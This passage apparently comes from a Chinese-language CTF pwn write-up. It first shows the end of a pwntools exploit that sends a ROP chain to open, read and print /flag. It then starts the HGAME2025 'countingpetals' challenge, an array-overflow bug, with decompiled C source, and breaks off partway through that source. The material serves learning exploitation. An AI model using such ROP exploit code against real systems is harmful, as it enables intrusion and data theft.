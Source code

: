 ```c++
r.send(b"/flag\x00\x00\x00"+p64(rdi_add)+p64(bss_3)+p64(rsir15_add)+p64(0)+p64(0)+p64(rdxr12_add)+p64(0)+p64(0)+p64(rax_add)+p64(2)+p64(syscall_add)+p64(rdi_add)+p64(5)+p64(rsir15_add)+p64(bss_3+0x200)+p64(0)+p64(rdxr12_add)+p64(0x50)+p64(0)+p64(read_add)+p64(rdi_add)+p64(4)+p64(write_add))


r.interactive()
```

成功打通.

##### 2:[HGAME2025]countingpetals

一道数组溢出.

```c++
int __fastcall main(int argc, const char **argv, const char **envp)
{
  int v4; // [rsp+Ch] [rbp-A4h]
  int v5; // [rsp+10h] [rbp-A0h]
  int v6; // [rsp+14h] [rbp-9Ch]
  __int64 v7[17]; // [rsp+18h] [rbp-98h] BYREF
  int v8; // [rsp+A0h] [rbp-10h] BYREF
  int v9; // [rsp+A4h] [rbp-Ch]
  unsigned __int64 v10; // [rsp+A8h] [rbp-8h]

  v10 = __readfsqword(0x28u);
  init(argc, argv, envp);
  v4 = 0;
  while ( 1 )
  {
    v5 = 0;
    v6 = rand() % 30;
    v9 = 0;
    puts("\nAs we know,there's a tradition to determine whether someone loves you or not...");
    puts("... by counting flower petals when u are not sure.");
    puts("\nHow many flowers have you prepared this time?");
    __isoc99_scanf("%d", &v8);
    if ( v8 > 16 )
    {
      puts("\nNo matter how many flowers there are, they cannot change the fact of whether he or she loves you.");
      puts("Just a few flowers will reveal the answer,love fool.");
      exit(0);
    }
    puts("\nTell me the number of petals in each flower.");
    while ( v9 < v8 )
    {
      printf("the flower number %d : ", (unsigned int)++v9);
      __isoc99_scanf("%ld", &v7[v9 + 1]);
    }
    puts("\nDo you want to start with 'love me'");
    puts("...or 'not love me'?");
    puts("Reply 1 indicates the former and 2 indicates the latter: ");
    __isoc99_scanf("%ld", v7);
    puts("\nSometimes timing is important, so I added a little bit of randomness.");
    puts("\nLet's look at the results.");
    while ( v5 < v8 )
    {
      printf("%ld + ", v7[++v5 + 1]);
      v7[0] += v7[v5 + 1];
    }
    printf("%d", (unsigned int)v6);
    v7[0] += v6;
    puts(" = ");
    if ( (v7[0] & 1) == 0 )
```